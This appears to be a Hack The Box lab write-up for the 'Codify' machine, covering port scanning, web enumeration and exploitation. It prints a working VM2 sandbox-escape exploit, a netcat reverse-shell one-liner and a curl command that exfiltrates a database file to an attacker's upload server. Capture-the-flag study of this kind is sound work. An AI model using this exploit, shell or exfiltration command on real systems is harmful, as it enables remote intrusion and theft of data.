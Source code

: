 ```yaml
---
published: false
title: Hack The Box Codify Write Up
slug: htb-codify
description: Write up for Codify machine on Hack the box
author: Leon
date: 2024-03-23
cover: /media/1 2zqbeP26SB5iDgOINWaPfQ-3674822343.png
---
```

![](/media/1202zqbeP26SB5iDgOINWaPfQ-3674822343.png)  
  
Port Enumeration:

We conducted a port scan to assess the available ports on the target IP using the following command:

```
nmap -p- --min-rate 5000 $TARGET -sV 
```

The scan results unveiled several open ports:

*   Port 22/tcp: Open, hosting an SSH service.
    
*   Port 80/tcp: Open, serving HTTP.
    
*   Port 8888/tcp: Open, possibly related to the Sun AnswerBook service.
    

These findings suggest potential points of entry into the system, with SSH, HTTP, and a less common port being accessible.

Web Enumeration:

Upon accessing the web server on port 80, we were redirected to "codify.htb". To ease further access, we added the domain to our 'etc/hosts' file.

Further investigation of the web server yielded limited results. Despite attempts with basic reverse shells and testing in code editors, we encountered challenges in making significant progress. Examination of the source code and directory paths via DirBuster confirmed the absence of additional accessible pages beyond the visible content.

During this exploration, we noted the utilization of VM2 for the code sandbox, suggesting potential avenues for exploitation.

Exploitation Discovery:

Research into known vulnerabilities for the Node.js library led to a post on GitHub ([https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)) detailing a vulnerability in the `handleException()` function. This vulnerability enables escaping the sandbox and executing arbitrary code for VM2 versions up to 3.9.16.

The vulnerable code snippet is as follows:

```
const {VM} = require("vm2");
const vm = new VM();
const code =  err = {};
const handler = {
   getPrototypeOf(target) {
       (function stack() {
           new Error().stack;
           stack();
       })();
   }
};
const proxiedErr = new Proxy(err, handler);
try {
   throw proxiedErr;
} catch ({constructor: c}) {
   c.constructor('return process')().mainModule.require('child_process').execSync('YOUR BASH COMMAND');
}
console.log(vm.run(code));
```

Executing a bash command such as `ls` or `whoami` confirms the functionality of the code.

Now, it's time for Remote Code Execution (RCE)! I utilized the following payload for this purpose:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
```

This payload establishes a reverse shell to 10.0.0.1 on port 443.

Additionally, we discovered a database file located at `/var/www/contacts/tickets.db`. To exfiltrate the file, we utilized the following method:

```
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver

# Send a file
curl -X POST http://HOST/upload -F 'files=@tickets.db' 
```

This process enables the transfer of the database file for further analysis and exploitation.